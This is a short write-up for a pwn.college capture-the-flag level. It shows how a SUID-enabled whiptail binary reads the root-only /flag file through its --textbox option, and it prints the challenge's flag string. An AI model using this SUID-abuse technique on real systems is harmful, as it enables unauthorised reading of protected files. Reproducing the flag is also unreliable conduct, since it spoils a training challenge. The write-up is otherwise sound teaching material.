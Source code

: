 `whiptail` is a command-line based utility in Unix-like operating system that displays dialog boxes from shell scripts.

You can write this in your terminal,

`whiptail --title "Dialog Box" --msgbox "This is a message box" 10 20`

If you read the `man whiptail` you will find a `box option` called `--textbox file height width` which says:
`A text box lets you display the contents of a text file in a dialog box. It is like a simple text file viewer`.

```bash
hacker@program-misuse-level-33:~$ cd /
hacker@program-misuse-level-33:/$ cd challenge/
hacker@program-misuse-level-33:/challenge$ ls
babysuid_level33
hacker@program-misuse-level-33:/challenge$ ./babysuid_level33 
Welcome to ./babysuid_level33!

This challenge is part of a series of programs that
will require some light programming to read the flag..

I just set the SUID bit on /usr/bin/whiptail.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level33) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/whiptail!
hacker@program-misuse-level-33:/challenge$ 
hacker@program-misuse-level-33:/challenge$ cd /
hacker@program-misuse-level-33:/$ whiptail --textbox /flag 10 20
```

Then you will see a dialog box containing the flag.

> [!Flag]
> `pwn.college{U6pIkS8B6w7VJNKq0iBmeDv4b49.0VN3EDL0AjNzQzW}`

